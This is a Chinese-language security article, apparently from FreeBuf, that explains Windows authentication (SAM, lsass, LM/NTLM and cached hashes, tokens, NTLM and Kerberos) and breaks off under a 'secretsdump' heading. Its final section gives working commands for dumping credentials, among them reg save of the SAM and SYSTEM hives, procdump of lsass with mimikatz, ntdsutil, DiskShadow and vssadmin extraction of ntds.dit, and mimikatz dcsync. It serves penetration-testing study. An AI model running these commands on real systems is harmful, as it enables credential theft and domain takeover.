



# Windows 身份认证及利用思路 - FreeBuf 网络安全行业门户

## 一、Windows 身份认证基础

### 1、认证过程

**a、本地用户认证**

**在进行本地登录认证时操作系统会使用用户输入的密码作为凭证去与系统中的密码进行对比验证。**

在系统内部运行流程如下

```bash
winlogon.exe -> 接收用户输入 -> lsass.exe -> (认证)
```

首先用户注销、重启、锁屏后操作系统会让 winlogon 显示登录界面也就是输入框接收输入后将密码交给 lsass 进程这个进程会将明文密码加密成 NTLM Hash 对 SAM 数据库比较认证。

Windows Logon Process winlogon.exe 是 Windows NT 用户登陆程序用于管理用户登录和退出。

lsass 用于微软 Windows 系统的安全机制。它用于本地安全和登陆策略该程序运行内存中会记录用户输入的 hash 一定概率几率明文。

**b、MSCACHE（域缓存凭据）**

MSCACHE，又叫作 domain cached credentials、DCC、域缓存凭据。它作用是是缓存在机器本地注册表中的域凭据 + 域授权信息。

默认情况下 windows 操作系统会自动缓存记录最后 10 个密码哈希值。当域控制器不可访问时系统将检查已缓存的最后一个密码哈希值以便使用系统对用户进行身份验证。

需要注意的是，这里的 hash 是指 mscache hash，或者叫 dcc hash，根据操作系统的版本不同，又分为 dcc1 hash 与 dcc2 hash。Vista 之前保存的是 dcc1，之后保存的是 dcc2。两种 hash 的生成算法不一样。但无论是哪种都不是 NTLM 的 HASH。所以导出的域缓存的 hash 是**不能用于 PTH，只能用来破解**。

这些密码哈希值缓存在以下注册表设置中 HKEY\_LOCAL\_MACHINE\\SECURITY\\Cache


建议通过将以下安全设置来防止密码的本地缓存将其值设置为 0。

```bash
本地策略组编辑器 -> 计算机配置 -> Windows 设置 -> 本地策略 -> 安全选项 -> 交互式登录之前登录到缓存的次数 -> 0
```

## 

### 2、lsass 与 SAM 文件

**a、lsass.exe 程序**

lsass.exe 是一个系统重要进程用于微软 Windows 系统的安全机制。它用于本地安全和登陆策略。而 SAM 的功能就固定于 lsass.exe 中但是 lsass.exe 不仅仅只进行本地身份认证所有正确通过本地、远程身份认证的用户信息都会保存在 lsass.exe 的内存中。

由于 WDigest 协议的存在在一些旧版本的 windows 操作系统中 XP - win 8.0 和 server 2003 - server 2012 R1 纯文本密码存储在 lsass.exe 进程中。考虑到安全因素在后续的 windows 操作系统版本中默认禁用此协议。对于旧版本操作系统微软官方发布 KB2871997 补丁允许用户自行决定是否禁用该协议。

修改是否禁用需要修改注册表 HKEY\_LOCAL\_MACHINE\\System\\CurrentControlSet\\Control\\SecurityProviders\\WDigest 将 Negotiate 和 UseLogonCredential 注册表项值应设置为 0 可以完全禁用此协议。


除此以外，用户保存在在系统内的用户凭证也是由 lsass.exe 管理，在导出程序内存时，会同时导出，并且密码还是以明文的方式保存。



**b、SAM 文件**

SAM 即“安全帐户管理器 (Security Accounts Manager)”是 windows 操作系统管理用户帐户的安全所使用的一种机制。

**安全帐户管理器**对帐号的管理是通过安全标识进行的安全标识在帐号创建时就同时创建一旦帐号被删除安全标识也同时被删除。安全标识是唯一的即使是相同的用户名在每次创建时获得的安全标识都时完全不同的。因此一旦某个帐号被删除它的安全标识就不再存在了即使用相同的用户名重建帐号也会被赋予不同的安全标识不会保留原来的权限。

SAM 是用来存储 windows 操作系统密码的数据库文件为了避免明文密码泄漏 SAM 文件中保存的是明文密码在经过一系列算法处理过的 Hash 值被保存的 Hash 分为 LM Hash、NTLM Hash。当用户进行身份认证时会将输入的 Hash 值与 SAM 文件中保存的 Hash 值进行对比。**在域控制器上 SAM 文件相当于活动目录数据库文件 ntds.dit**。

值得注意的是 ntds.dit 并不等于 SAM 文件虽然在服务器升级为域控时会默认将 SAM 中的本地用户升级为对应级别的域用户或域管理员。但需要注意的是 SAM 文件依旧存在依旧可以配置本地管理员的设置。

SAM 文件保存于 % SystemRoot%\\system32\\config\\sam 中

在注册表中 SAM 保存于

```bash
HKEY_LOCAL_MACHINE\SAM\SAM
HKEY_LOCAL_MACHINE\SECURITY\SAM
```

在正常情况下 SAM 文件处于锁定状态不可直接访问、复制、移动仅有 system 用户权限才可以读写该文件。


出于安全性的考虑在后期的 windows 系统中 SAM 文件中被 bootkey 加密，而 bootkey 则保存在这个 SYSTEM 文件下。因此单独的 SAM 文件是无法正常解读的如果需要解密则还需要加载对应系统的 system 文件。

SAM 文件中内容存储类似于 Unix/Linux 系统中的 passwd 和 shadow 文件的结合，区别在于没有这么直观明。

SAM 中 hash 密码存储格式为用户名称：RID:LM-HASH 值：NT-HASH 值例如

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:732ca7a7e650537443ccacae4d2f71f5:::
```

这一串内容表示

用户名为 Administrator

RID 为 500

LM-HASH 值为：aad3b435b51404eeaad3b435b51404ee

NT-HASH 值为：732ca7a7e650537443ccacae4d2f71f5

### 3、哈希 Hash

Hash 一般翻译做“散列”也有直接音译为“哈希”的就是把任意长度的输入又叫做预映射 pre-image 通过散列算法变换成固定长度的输出该输出就是散列值。

为了保证用户凭证的安全性在 windows 操作系统中密码不会直接以明文的方式存储只会保留经由加密算法加密后生成的 hash 由于算法不可逆所以可以最大程度保护用户凭证的安全性。

而在 windows 操作系统中存在两套加密方式加密生成密码 Hash LM Hash 和 NT Hash (NTLM Hash)。

目前主要使用的加密方式为 NTLM Hash 其中 NTLM 全称是“NT LAN Manager”。而 NTLM 也是一种网络认证协议与 NTLM Hash 的关系就是 NTLM 网络认证协议是以 NTLM Hash 作为根本凭证进行认证的协议。也就是说 NTLM 与 NTLM Hash 相互对应。

**a、LM Hash**

LM Hash 全称是 LAN Manager Hash 是 windows 最早用的加密算法由 IBM 设计。

由于 LM Hash 使用 DES 加密密钥为硬编码算法又存在缺陷所以被**废弃**但为保证系统兼容性 LM hash 并未被删除可以自行选择是否开启使用。

对于早期的系统如 XP、server 2003 来说系统默认使用 LM Hash 进行加密也可人为设置成 NTLM Hash 之后的 server 2008、win7 等操作系统禁用了 LM Hash 默认使用 NTLM Hash。

在后续 windows 版本中 LM Hash 默认存储为空即 AAD3B435B51404EEAAD3B435B51404EE

**1\. 生成规则**

1\. 用户的密码被限制为最多 14 个字符。

2\. 用户的密码转换为大写。

假设明文口令是“Welcome”首先全部转换成大写“WELCOME”再做将口令字符串大写转后后的字符串变换成二进制串

```bash
“WELCOME” -> 57454**34F4D45
```

3\. 密码不足 14 字节则需要在其后添加 0x00 补足 14 字节。

```bash
“WELCOME” -> 57454**34F4D4500000000000000
```

4\. 固定长度的密码被分成两个 7byte 部分分别经 str\_to\_key () 函数处理得到两组 8 字节数据

```bash
57454**34F4D45 -str_to_key()-> 56A25288347A348A``00000000000000 -str_to_key()-> 0000000000000000
```

5\. 这两组 8 字节数据将做为 DESKEY 对魔术字符串“KGS!@#$%”进行标准 DES 加密

```bash
"KGS!@#$%" -> 4B47532140232425
56A25288347A348A -对 4B47532140232425 进行标准 DES 加密-> C23413A8A1E7665F
0000000000000000 -对 4B47532140232425 进行标准 DES 加密-> AAD3B435B51404EE
```

6\. 将加密后的这两组数据简单拼接就得到了最后的 LM Hash

```bash
LM Hash: C23413A8A1E7665FAAD3B435B51404EE
```

**2\. 固有漏洞**

> 1\. 首先密码长度最大只能为 14 个字符
> 
> 2\. 密码不区分大小写。在生成哈希值之前所有密码都将转换为大写
> 
> 3\. 查看的加密过程就可以看到使用的是分组的 DES 如果密码强度是小于 7 位那么第二个分组加密后的结果肯定是 aad3b435b51404ee 如果 lm hash 的结尾是 aad3b435b51404ee 就可以很轻易的发现密码强度少于 7 位
> 
> 4\. 一个 14 个字符的密码分成 7 + 7 个字符并且分别为这两个半部分计算哈希值。这种计算哈希值的方式使破解难度成倍增加因为攻击者需要将 7 个字符而不是 14 个字符强制暴力破解。这使得 14 个字符的密码的有效强度等于或者是 7 个字符的密码的两倍该密码的复杂度明显低于 14 个字符的密码的理论强度。
> 
> 5.Des 密码强度不高

**b、NT Hash**

为了解决 LM 加密和身份验证方案中固有的安全弱点 Microsoft 于 1993 年在 Windows NT 3.1 中引入了 NTLM 协议。

**1\. 生成规则**

与 LM Hash 算法不同 NT Hash 不需要添加 0x00 补足 14 字节。

操作系统会将输入的明文信息转换为十六进制经过 Unicode 转换后再调用 MD4 加密算法加密这个加密结果的十六进制就是 NT Hash。

以 admin 为例首先将 admin 转换为 16 进制。

```bash
admin -> hex(16 进制编码) = 61646d696e
61646d696e -> Unicode = 610064006d0069006e00
610064006d0069006e00 -进行标准 MD4 加密-> 209c6174da490caeb422f3fa5a7ae634
```

就得到了最后的 NT Hash

```bash
NTLM Hash: 209c6174da490caeb422f3fa5a7ae634
```

与 LM Hash 算法相比明文口令大小写敏感无法根据 NTLM Hash 判断原始明文口令是否小于 8 字节摆脱了魔术字符串 "KGS!@#$%"。MD4 是真正的单向哈希函数穷举作为数据源出现的明文难度较大。

**c、Mscache Hash**

mscache hash 是域用户在登录域内机器时，所留下的域缓存凭据的密码加密方式，又称 dcc hash，根据操作系统的版本不同，分为 dcc1 hash 与 dcc2 hash。Vista 之前保存的是 dcc1，之后保存的是 dcc2。两种 hash 的生成算法不一样。这段 mscache hash 主要用于对用户输入的密码进行验证。

**1\. 工作原理**

当机器可以连上域控的时候，你用域账号去登陆这台机器，在登陆成功后（域控验证了你的身份后），系统会将你的凭据以及授权信息保存在注册表里面。默认是保存 10 个凭据（可以对这个值进行更改）。当被保存的凭据已经超过 10 个的话，新的凭据会覆盖掉老的凭据。

凭据被缓存在注册表里的这些用户，在机器连不上域控的时候也可以登陆这台机器（只能交互式登陆，比如控制台或远程桌面。远程桌面的时候要注意，不能使用带有 NLA 功能的 RDP 客户端，要用老的比如 XP 上带的 RDP 客户端），但是没有被缓存在注册表里的用户是无法登陆的。

MSCACHE 的保存位置默认只有 SYSTEM 权限可读。

**2\. 生成规则**

DCC1 = MD4 (NT HASH + LowerUnicode(username))

DCC2 = PBKDF2(HMAC-SHA1, Iterations, DCC1, LowerUnicode(username))

**3\. 解密步骤**

> 1\. 得到 bootkey
> 
> 2\. 利用 bootkey 解密 LSA Key
> 
> 3\. 利用 LSA Key 解密 NLKM Key
> 
> 4\. 利用 NLKM Key 解密 MSCACHE

   
| 数据  | 位置  | 算法  | Key |
| --- | --- | --- | --- |
| MSCACHE | HKLM\\SECURITY\\Cache | AES-CTS | NLKM Key |
| NLKM Key | 注册表 LSA Secrets 区域 | AES | 变形后的 LSA Key |
| LSA Key | HKLM\\SECURITY\\Policy\\PolEKList | AES | 变形后的 boot key |
| bootkey | HKLM\\System\\CurrentControlSet\\Control\\Lsa |     |     |

其中 bootkey 被拆成了 4 部分，分别保存在：

```bash
HKLM\System\CurrentControlSet\Control\Lsa\JD
    HKLM\System\CurrentControlSet\Control\Lsa\Skew1
    HKLM\System\CurrentControlSet\Control\Lsa\Data
    HKLM\System\CurrentControlSet\Control\Lsa\GBG
```

### 4、访问令牌

Windows Token 其实叫 Access Token 访问令牌它是一个描述进程或者线程安全的一个对象。不同的用户登录计算机后 都会生成一个 Access Token 这个 Token 在用户创建进程或者线程时会被使用不断的拷贝这也就解释了 A 用户创建一个进程而该进程没有 B 用户的权限。

Access Token 种类

> 主令牌
> 
> 模拟令牌

一般情况下用户双击运行一个程序都会拷贝“explorer.exe”的 Access Token。

当用户注销后系统将会使主令牌切换为模拟令牌不会将令牌清除只有在重启机器后才会清除。

**a、令牌组成**

> 用户帐户的安全标识符 (SID)
> 
> 用户所属的组的 SID
> 
> 用于标识当前登录会话的登录 SID
> 
> 用户或用户组所拥有的权限列表
> 
> 所有者 SID
> 
> 主要组的 SID
> 
> 访问控制列表
> 
> 访问令牌的来源
> 
> 令牌是主要令牌还是模拟令牌
> 
> 限制 SID 的可选列表
> 
> 目前的模拟等级
> 
> 其他统计数据

**b、安全标识符**

安全标识符是一个唯一的字符串它可以代表一个账户、一个用户 组、或者是一次登录。通常它还有一个 SID 固定列表例如 Everyone 这种已经内置的账户默认拥有固定的 SID。

SID 的表现形式：

> 域 SID - 用户 ID
> 
> 计算机 SID - 用户 ID

SID 列表都会存储在域控的 AD 或者计算机本地账户数据库中。


**c、用户权限与令牌**

**1\. 用户与权限**

在 windows 操作系统底层真正的用户权限划分是相对复杂的并不仅仅只有用户可见的普通权限或管理员权限。相同的权限组不同的 RID 所拥有的权限也是不一样的。也就是说初始默认的 administrator 用户 RID 500 和普通管理员组用户的权限是不一样的 administrator 用户权限大于管理员组用户准确的说是 RID 500 的用户权限大于普通管理员组用户。**因为系统本身并不识别用户名只识别用户的 RID。**

这一区别在在远程访问过程中尤其明显。在使用 hash 传递时会发现如果目标服务器安装有 kb2871997 补丁那么 hash 传递攻击就会受到限制。**只有 RID 500 的用户和本地管理员组的域用户不会受到影响。**

而出现这一问题的主要原因就是用户帐户控制 UAC 的令牌筛选机制。

**2\. 受限令牌与 UAC**

在 windows vista 以上版本操作系统的任何非 RID 500 本地管理员帐户使用远程连接无论是通过 WMIPSEXEC 还是其他方法即使用户是本地管理员返回的令牌都是**已过滤的管理员令牌**也称[**受限令牌**](https://docs.microsoft.com/en-us/windows/win32/secauthz/restricted-tokens)。

受限令牌是主令牌或模拟令牌的子集被修改用于控制特权或权限具有以下特性

其完整性级别被设置为“中”。

管理员 SID 和 管理员类的 SID 被标记为“仅仅拒绝”而不是直接把这些组移除。

所有的特权都被移除除了以下这些 Change Notify、Shutdown、Undock、Increase Working Set 和 Time Zone。

通俗来说就是管理员组的非 RID 500 账户登录之后是没有过 UAC 的所有特权都被移除。而 RID 500 账户登录之后也以完全管理特权“完全令牌模式”运行所有应用程序实际是不用过 UAC 的。

对于本地“管理员”组中的域用户帐户当具有域用户帐户的用户远程登录 windows 操作系统并且该用户是管理员组的成员时域用户将在远程计算机上以完全管理员访问令牌运行并且该用户的 UAC 被禁用在该会话的远程计算机上。

**3\. 关闭令牌过滤**

如果 HKLM\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Policies\\System\\LocalAccountTokenFilterPolicy 项存在 (默认不存在) 且配置为 1 将授予来自管理员所有本地成员的远程连接完整的高完整性令牌。这意味着未过滤非 RID 500 帐户连接并且可以成功传递哈希值

## 二、网络协议认证

### 1、NTLM 协议

NTLM 是一种网络认证协议它是基于挑战 Chalenge / 响应 Response 认证机制的一种认证模式。这个协议**只支持 windows 操作系统**。

需要注意的是 NTLM 协议是一个**嵌入式的协议很重要**消息的传输依赖于使用 ntlm 的上层协议比如 SMBLDAPHTTP 等。需要注意的是 NTLM 不像 kerbreos 既可以镶嵌在上层协议里面也可以作为独立的应用层协议。NTLM 是只能镶嵌在上层协议里面消息的传输依赖于使用 ntlm 的上层协议。

**a、认证过程**

**1\. 三种重要消息**

NTLM 验证主要由三种消息组成

> type 1 协商
> 
> type 2 质询
> 
> type 3 验证

**协商**主要用于确认双方协议版本。

**质询**就是挑战 Chalenge / 响应 Response 认证机制起作用的范畴本小节主要讨论这个机制的运作流程。

## 验证验证主要是在质询完成后验证结果是认证的最后一步。

**2\. 完整验证流程**


1\. 首先用户客户端向服务器发送 type 1 消息协商它主要包含客户端支持和服务器请求的功能列表。

2\. 服务器在接收到用户发来的请求后用 type 2 消息质询消息进行响应这个响应中不仅包含有服务器支持和同意的功能列表最重要的是包含服务器产生的 **Challenge**。

3\. 用户客户端在收到服务器的响应后用 type 3 消息验证回复质询。用户客户端接收到 challenge 之后使用用户 hash 与 challenge 进行加密运算得到 response 然后将 response、username、challeng 发给服务器。**消息中的 response 是最关键的部分因为它们向服务器证明客户端用户已经知道帐户密码。**

在服务器拿到用户客户端发送的 type 3 消息之后使用 challenge 和用户 hash 进行加密得到 response2 与 type 3 发来的 response 进行比较。

1\. 如果用户 hash 是存储在域控里面的话那么没有用户 hash 也就没办法计算 response2 也就无法验证。这个时候服务器就会通过 netlogon 协议联系域控建立一个安全通道，然后将 type 1,type 2type3 全部发给域控 (这个过程也叫作 Pass Through Authentication 认证流程)

2\. 域控使用 challenge 和用户 hash 进行加密得到 response2 与 type 3 的 response 进行比较并将结果返回给服务器。

域控远程认证


**b、Net-ntlm hash**

在 type 3 中的响应有六种类型的响应

> 1.LMLAN Manager 响应 – 由大多数较早的客户端发送这是“原始”响应类型。
> 
> 2.NTLM v1 响应 – 这是由基于 NT 的客户端发送的包括 Windows 2000 和 XP。
> 
> 3.NTLM v2 响应 – 在 windows NT Service Pack 4 中引入的一种较新的响应类型。它替换启用了 NTLM 版本 2 的系统上的 NTLM 响应。
> 
> 4.LM v2 响应 – 替代 NTLM 版本 2 系统上的 LM 响应。
> 
> 5.NTLM2 会话响应 – 用于在没有 NTLMv2 身份验证的情况下协商 NTLM2 会话安全性时此方案会更改 LM NTLM 响应的语义。
> 
> 6\. 匿名响应 – 当匿名上下文正在建立时使用；没有提供实际的证书也没有真正的身份验证。“存 根”字段显示在类型 3 消息中。

这六种使用的加密流程一样都是前面的 Challenge / Response 验证机制，区别在 Challenge 和加密算法不同。

Challenge/Response 验证机制里面 type 3 response 里面包含 Net-ntlm hashNTLM v1 响应和 NTLMv2 响应对应的就是 Net-ntlm hash 分为 Net-ntlm hash v1 和 Net-ntlm hash v2。

Net-ntlm hash v1 的格式为 username::hostname:LM response:NTLM response:challenge

Net-ntlm hash v2 的格式为 username::domain:challenge:HMAC-MD5:blob

在实际过程中使用哪个版本的响应**由 LmCompatibilityLevel 决定**。

在多数情况下 Net-ntlm hash v1 **已经废弃**只能在一些旧版本的系统上看到。一个很重要的原因就是 Net-ntlm hash v1 本身存在缺陷只要获取到 Net-NTLM v1 **都能破解**为 NTLM hash **与密码强度无关**。

**1.Net-NTLMv1**

Net-NTLMv1 的响应生成方式分为两种当 NTLMSSP Negotiate Flags 未设置 Session Security 标志位时采用方法一若设置该标志位则采用方法二。

**方法一**

> 1.NT Hash 后面补 5 个字节 0 共 21 字节
> 
> 2\. 分成 3 组 7 字节每 7 个比特后面添加 1 比特 0 成为 3 个 8 字节的 DES 密钥
> 
> 3\. 使用步骤 2 得到的 3 个密钥分别对 8 字节的挑战进行 DES 获得三组 8 字节密文共组成 24 字节的密文称为响应

**方法二**

> 1.NT Hash 后面补 5 个字节 0 共 21 字节
> 
> 2\. 分成 3 组 7 字节每 7 个比特后面添加 1 比特 0 成为 3 个 8 字节的 DES 密钥
> 
> 3\. 拼接 8 字节 Server Challenge 和 8 字节 Client Challenge 后求其 MD5 然后取 MD5 值的前 8 字节
> 
> 4\. 使用步骤 2 得到的 3 个密钥分别对步骤 3 中得到的 8 字节数据进行 DES 加密获得三组 8 字节密文共组成 24 字节的密文称为响应

**2.Net-NTLMv2**

> 1\. 将 Unicode 后的大写用户名与 Unicode 后的身份验证目标在 Type 3 消息的“TargetName”字段中指定的域或服务器名称拼在一起。用户名将转换为大写而身份验证目标区分大小写并且必须与“TargetName”字段中显示的大小写匹配。使用 16 字节 NTLM 哈希作为密钥得到一个值。
> 
> 2\. 构建一个 blob 信息。
> 
> 3\. 使用 16 字节 NTLMv2 哈希作为密钥将 HMAC-MD5 消息认证代码算法加密一个值 (来自 type 2 的 Challenge 与 Blob 拼接在一起)。得到一个 16 字节的 NTProofStr。
> 
> 4\. 将 NTProofStr 与 Blob 拼接起来形成得到 response。

**c、LmCompatibilityLevel**

此安全设置确定网络登录使用的“质询 / 响应”身份验证协议。此选项会影响客户端使用的身份验证协议的等级、协商的会话安全的等级以及服务器接受的身份验证的等级。

在 type 3 消息中的 hash 类型就是由 LmCompatibilityLevel 来决定的。

发送 LM NTLM 响应：客户端使用 LM 和 NTLM 身份验证而决不会使用 NTLMv2 会话安全域控制器接受 LM、NTLM 和 NTLMv2 身份验证。

发送 LM & NTLM – 如果协商一致则使用 NTLMv2 会话安全：客户端使用 LM 和 NTLM 身份验证并且在服务器支持时使用 NTLMv2 会话安全域控制器接受 LM、NTLM 和 NTLMv2 身份验证。

仅发送 NTLM 响应：客户端仅使用 NTLM 身份验证并且在服务器支持时使用 NTLMv2 会话安全域控制器接受 LM、NTLM 和 NTLMv2 身份验证。

仅发送 NTLMv2 响应：客户端仅使用 NTLMv2 身份验证并且在服务器支持时使用 NTLMv2 会话安全域控制器接受 LM、NTLM 和 NTLMv2 身份验证。

仅发送 NTLMv2 响应 / 拒绝 LM: 客户端仅使用 NTLMv2 身份验证并且在服务器支持时使用 NTLMv2 会话安全域控制器拒绝 LM (仅接受 NTLM 和 NTLMv2 身份验证)。

仅发送 NTLMv2 响应 / 拒绝 LM & NTLM: 客户端仅使用 NTLMv2 身份验证并且在服务器支持时使用 NTLMv2 会话安全域控制器拒绝 LM 和 NTLM (仅接受 NTLMv2 身份验证)。

在组策略中 LmCompatibilityLevel 叫作“网络安全：LAN 管理器身份验证级别”。如果客户服务端服务端版本不匹配会造成无发访问。

### 3、Kerberos 域认证

**a、kerberos 协议概述**

Kerberos 是一种由 MIT 麻省理工大学提出的一种网络身份验证协议。它旨在通过使用密钥加密技术为客户端 / 服务器应用程序提供强身份验证。

该认证过程的实现不依赖于主机操作系统的认证无需基于主机地址的信任不要求网络上所有主机的物理安全并假定网络上传送的数据包可以被任意地读取、修改和插入数据。在以上情况下 Kerberos 作为一种可信任的第三方认证服务是通过传统的密码技术如：共享 密钥执行认证服务的。

在 Kerberos 协议中主要是有三个角色的存在

> 1\. 访问服务的 Client (以下表述为 Client 或者用户)
> 
> 2\. 提供服务的 Server (以下表述为服务)
> 
> 3.KDCKey Distribution Center 密钥分发中心 kerberos 测试工具介绍

其中 KDC 服务默认会安装在一个域的域控中而 Client 和 Server 为域内的用户或者是服务如 HTTP 服务 SQL 服务。在 Kerberos 中 Client 是否有权限访问 Server 端的服务由 KDC 发放的票据来决定。

**1\. 名词概念**

**票据 Ticket** 是网络对象互相访问的凭证。

**TGTTicket Granting Ticket** 入场券通过入场券能够获得票据是一种临时凭证的存在。

**TGSticket granting service** 票据授予服务。

**KDC** 负责管理票据、认证票据、分 \*\* 据但是 KDC 不是一个独立的服务它由以下服务组成

Authentication Service: 为 client 生成 TGT 的服务

Ticket Granting Service: 为 client 生成某个服务的 ticket

另外还需要介绍一个类似于本机 SAM 的一个数据库 AD 全称叫 account database 存储所有 client 的白名单只有存在于白名单的 client 才能顺利申请到 TGT。

从物理层面看 AD 与 KDC 均为域控制器 Domain Controller。

**b、认证流程**


**1.AS-REQ**Client 向 KDC 发起请求明文密码将会被加密为 hash 时间戳使用 Client hash 进行加密然后作为认证票据 TGT 请求 AS-REQ 中的认证因子发送给 KDC。

**2.AS-REP**KDC 使用 Client hash 进行解密如果结果正确就返回用 krbtgt hash 加密的 TGT 票据。TGT 里面包含 PACPAC 包含 Client 的 sidClient 所在的组。

**3.TGS-REQ** 当 Client 请求票据授予服务 TGS 票据时用户需要向 KDC 展示 TGT 数据。KDC 会打开票据进行校验和检查。如果 KDC 能够打开票据并能通过校验和检查那么会认为 TGT 为有效票据。此时 TGT 中的数据会被复制以创建 TGS 票据。

**4.TGS-REP**KDC 使用目标服务账户的 hash 对 TGS 票据进行加密然后将结果发送给 Client。(这一步不管用户有没有访问服务的权限只要 TGT 正确就返回 TGS 票据)

**5.AP-REQ**Client 访问目标服务并发送 TGS 票据去请求服务。

**6.AP-REP** 服务使用自己的 hash 解密 TGS 票据。如果解密正确就拿着 PAC 去 KDC 查询 Client 有没有访问权限 KDC 解密 PAC。获取 Client 的 sid 以及所在的组再根据该服务的 ACL 判断 Client 是否有访问服务的权限。

**c、PAC**

在 Kerberos 最初设计的几个流程里说明了如何证明 Client 是 Client 而不是由其他人来冒充的但并没有声明 Client 有没有访问 Server 服务的权限因为在域中不同权限的用户能够访问的资源是有区别的。

所以 Microsoft 为了解决这个问题在实现 Kerberos 时加入了 PAC 的概念 PAC 的全称是 Privilege Attribute Certificate 特权属性证书。

PAC 可以理解为一串校验信息为了防止被伪造和串改原则上是存放在 TGT 里并且 TGT 由 KDC hash 加密。同时尾部会有两个数字签名分别由 KDC 密码和 server 密码加密防止数字签名内容被篡改。


同时 PAC 指定了固定的 User SID 和 Groups ID 还有其他一些时间等信息 Server 的程序收到 ST 之后解密得到 PAC 会将 PAC 的数字签名发送给 KDCKDC 再进行校验然后将结果已 RPC 返回码的形式返回给 Server。

## 三、获取用户凭证

这里说的用户凭证获取，一般是指 ntlm hash 或者可以直接利用的明文密码。其他加密方式的用户凭证不在本次讨论范围内。

### 1、本地用户凭证

**a、通过 SAM 文件破解**

```bash
reg save hklm\sam C:\sam.hive
reg save hklm\system C:\system.hive
```

**b、获取 lsass 内存**

**1.procdump**

procdump 是微软提供的一款监测 cpu 峰值协助管理员检测异常数据的软件是合法可信任软件因此杀软不会拦截。

利用该软件可读取内存的特性可以将计算机用户登录内存抓取出来。具体命令如下

```bash
以管理员身份启动 cmd
procdump64.exe -accepteula -ma lsass.exe 存放路径\文件名
```

将生成的文件传出后使用 mimikatz 破解

```bash
mimikatz # sekurlsa::minidump 文件名
mimikatz # sekurlsa::logonPasswords full
```

**2\. 创建转储文件**

除了使用工具软件获得 lsass.exe 的内存外还可以直接在任务管理器中创建 lsass.exe 的转储文件效果和 procdump 生成的效果一样。


### 2、域用户凭证

**a、ntdsutil 域快照**

ntdsutil 是一个命令行工具是域控制器生态系统的一部分其主要用途是使管理员能够轻松访问和管理 Windows Active Directory 数据库。但它常被渗透测试人员或红队队员滥用来获取现有的 ntds.dit 文件快照。在 Windows Server 2008 及以上版本的系统中可直接使用 ntdsutil。

```bash
ntdsutil
activate instance ntds
ifm
create full C:\ntdsutil
quit
quit
```


**b、DiskShadow**

DiskShadow 是一个 Microsoft 签名二进制文件用于协助管理员执行与卷影复制服务 VSS 相关的操作。这个二进制文件有两个模式 interactive 和 script 脚本将包含自动执行 NTDS.DIT 提取过程所需的所有命令。可以在脚本文件中添加以下行以创建新的 volume shadow copy 卷影复制挂载新驱动执行复制命令以及删除 volume shadow copy。

```bash
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\ntds\ntds.dit
delete shadows volume %someAlias%
reset
```

需要注意的是 DiskShadow 二进制文件需要从 C:\\Windows\\System32 路径执行。如果从其它路径调用它脚本将无法正确执行同时该脚本文件保存时编码格式不能选择 UTF-8 要选择 ASCII 编码否则运行会报错。

```bash
diskshadow.exe /s c:\diskshadow.txt
```


SYSTEM 注册表 hive 也应该被复制因为其包含了解密 NTDS 文件内容所需的密钥。

```bash
reg.exe save hklm\system c:\ntds\system.bak
```

**c、vssadmin**

vssadmin 即卷影复制服务 Volume Shadow Copy Service 是微软 Windows 的一项组件服务从 Windows XP 开始支持。管理员可以使用卷影复制服务备份计算机卷以及文件即使操作系统正在使用这些资源。

**1\. 备份方法**

```bash
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[ID]\windows\ntds\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[ID]\windows\system32\config\SYSTEM
vssadmin delete shadows /shadow=[GUID]
```

其中的 HarddiskVolumeShadowCopy \[ID\] 中的 \[ID\] 和 \[GUID\] 均为动态生成需要根据回显结果输入。如下图



可以看出 \[ID\] 为 1\`\`\[GUID\] 为 c73089ab-8634-457c-8ee7-b8c0ed2432ad。


**2.windows server 03**

如果系统是 server 03 在执行完毕之后还需要使用 esentutl 对 ntds 进行修复。

```bash
esentutl /r edb /8 /d /o
esentutl /p .\ntds.dit /8 /o
```


**需要注意的是该操作必须在 windows server 2003 上执行。**

**d、Mimikatz**

Mimikatz 有一个功能 dcsync 利用目录复制服务 DRS 从 NTDS.DIT 文件中检索密码哈希值。该技术消除了直接从域控制器进行认证的必要性，因为它可以以域管身份在域的任意系统执行，或是使用黄金票据从任意可连接到域控的服务器执行。因此这也是一项用于红队的标准技术。

```bash
lsadump::dcsync /domain:aptlab.com /all /csv
```



通过使用 /user 参数指定域用户名 Mimikatz 会将该指定用户的所有帐户信息转储包括哈希值。

```bash
lsadump::dcsync /domain:pentestlab.local /user:test
```


**e、secretsdump**

